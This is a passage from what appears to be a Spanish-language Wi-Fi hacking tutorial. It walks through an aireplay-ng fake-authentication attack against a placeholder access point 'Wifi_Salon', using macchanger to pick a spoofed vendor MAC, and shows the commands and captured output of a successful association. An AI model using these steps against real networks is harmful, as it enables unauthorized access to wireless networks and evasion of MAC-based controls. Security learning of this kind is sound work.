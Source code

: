 Usaremos él **-1** que es el **ataque de falsa autenticación**.

Una vez que elegimos el ataque, vamos a escribir **0** para que siga mandando **paquetes de falsa autenticación** y se mantenga en linea, indicamos el **essid** que vamos a atacar e indicamos su **MAC**. Por último, crearemos una **MAC** falsa con la herramienta **macchanger** para que esa sea la **MAC** con la que se identifique la nueva red falsa.

Primero busquemos una **MAC**:
```bash
macchanger -l | grep "NSA"                                    
0204 - 00:00:cc - DENSAN CO., LTD.
6307 - 00:18:be - ANSA Corporation
10901 - 00:60:87 - KANSAI ELECTRIC CO., LTD.
11932 - 00:c0:34 - TRANSACTION NETWORK
```

Usemos la de **KANSAI** y preparemos el comando:
```bash
aireplay-ng -1 0 -e Wifi_Salon -a MAC:Wi:Fi:Sa:lon:XD -h 00:60:87:fe:32:d3 wlan0
```

Así debería quedar, pero **OJO** cuando uses el comando, puede que salga este error:
```bash
15:56:13  Waiting for beacon frame (BSSID: 34:53:D2:7B:5D:28) on channel 2
15:56:14  wlan0 is on channel 2, but the AP uses channel 11
```
Simplemente, sigue usando el comando hasta que te dé un resultado exitoso. Yo lo tuve que usar 3 veces.

Bien, veamos si fue el ataque exitoso:
```bash
aireplay-ng -1 0 -e Wifi_Salon -a MAC:Wi:Fi:Sa:lon:XD -h 00:60:87:fe:32:d3 wlan0
The interface MAC (**:**:**:**:**:**) doesn't match the specified MAC (-h).
        ifconfig wlan0 hw ether 00:60:87:FE:32:D3
15:57:31  Waiting for beacon frame (BSSID: MAC:Wi:Fi:Sa:lon:XD) on channel 11
15:57:31  Sending Authentication Request (Open System) [ACK]
15:57:31  Authentication successful
15:57:31  Sending Association Request [ACK]
15:57:31  Association successful :-) (AID: 1)
```

Vamos al monitoreo:
```bash
CH 10 ][ Elapsed: 2 mins ][ 2023-05-11 15:57                                                                                                                                                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                                                                              
MAC:Wi:Fi:Sa:lon:XD -58      260       43    0  11  130   WPA2 CCMP   PSK  Wifi_Salon                                                                                                                                                                                     
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                                                                                                                                                                            
 (not associated)   **:**:**:**:**:**  -94    0 - 1      0        1                                                                    
 (not associated)   **:**:**:**:**:**  -94    0 - 1      0        1
MAC:Wi:Fi:Sa:lon:XD 00:60:87:FE:32:D3  -54    0 - 1      0        2
```
Excelente, ahí puedes ver la **MAC** que usamos en el comando, esto nos indica que logramos hacer una **falsa autenticación**.
